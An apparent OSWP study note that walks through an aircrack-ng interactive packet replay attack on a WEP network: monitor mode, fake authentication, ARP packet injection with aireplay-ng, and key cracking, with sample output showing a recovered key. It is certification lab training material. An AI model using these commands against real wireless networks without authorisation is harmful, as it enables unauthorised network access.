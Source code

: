 #  OSWP - Interactive Packet Replay - (Attacking a Connected Client) (WEP)

This attack allows you to choose a specific packet for replaying (injecting). The attack can obtain packets to replay from two sources. The first being a live flow of packets from your wireless card. The second being from a pcap file. Standard Pcap format (Packet CAPture, associated with the libpcap library http://www.tcpdump.org), is recognized by most commercial and open-source traffic capture and analysis tools. Reading from a file is an often overlooked feature of aireplay-ng. This allows you read packets from other capture sessions or quite often, various attacks generate pcap files for easy reuse. A common use of reading a file containing a packet your created with packetforge-ng.

## Commands

* Run [setup](../../setup.md) first
* Up to three terminals are needed, so `screen` is your friend
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the interactive attack against the client and wait
sudo aireplay-ng --interactive -b $BSSID -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 $INTERFACE
```
* View output. This is a candidate ARP packet to be used for injection.

```
No source MAC (-h) specified. Using the device MAC (00:C0:CA:B2:96:E3)
Read 171 packets...

        Size: 86, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  00:9F:A9:24:B9:28
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  10:9F:A9:24:B9:25

        0x0000:  0842 0000 ffff ffff ffff 009f a924 b928  .B...........$.(
        0x0010:  109f a924 b925 e0fc b18f 0500 0991 2b11  ...$.%........+.
        0x0020:  b707 3a2c 50b7 4f19 3098 3cd4 9e38 21cb  ..:,P.O.0.<..8!.
        0x0030:  559c d938 d229 04db 45d8 a4b7 85fe 6634  U..8.)..E.....f4
        0x0040:  4a7d 5996 5822 817e 2b7a 0c12 0326 0661  J}Y.X".~+z...&.a
        0x0050:  cd3e 57e8 9d1f                           .>W...

Use this packet ?

# Say yes and monitor the data ... it should be getting big.
# If not, then ctrl-c ... try another
# Keep doing until the data starts to increase
```

```bash
# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* Look for the suscessful output - assuming enough IVs are available

```
Reading packets, please wait...
Opening wifu-01.cap
Read 806868 packets.

   #  BSSID              ESSID                     Encryption

   1  00:9F:A9:24:B9:28  wifu                      WGot 184612 out of 180000 IVsStarting PTW attack with 184612 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

### Using an Existing AP Packet

```bash
# Use an existing AP packet file
sudo aireplay-ng --interactive -r replay_src-0613-135427.cap $INTERFACE
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=3384)
